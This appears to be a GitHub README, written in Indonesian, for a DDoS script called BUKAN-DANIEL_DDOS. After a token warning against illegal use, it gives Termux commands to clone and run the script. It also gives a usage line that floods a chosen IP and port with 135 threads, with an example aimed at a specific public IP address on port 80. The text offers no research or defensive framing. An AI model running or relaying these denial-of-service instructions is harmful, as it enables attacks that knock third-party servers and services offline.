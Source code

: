 # BUKAN-DANIEL_DDOS
Jangan digunakan untuk aktivitas ilegal!  Cara menggunakan Script ini: pkg update &amp;&amp; pkg upgrade pkg install git pkg install python git clone https://github.com/BUKAN-DANIEL/BUKAN-DANIEL_DDOS cd BUKAN-DANIEL_DDOS python BUKAN-DANIEL_DDOS.py python BUKAN-DANIEL_DDOS.py -s [IP target] -p [PORT] -t 135  Contoh: python BUKAN-DANIEL_DDOS.py -s 161.117.112.172 - 80 -t 135
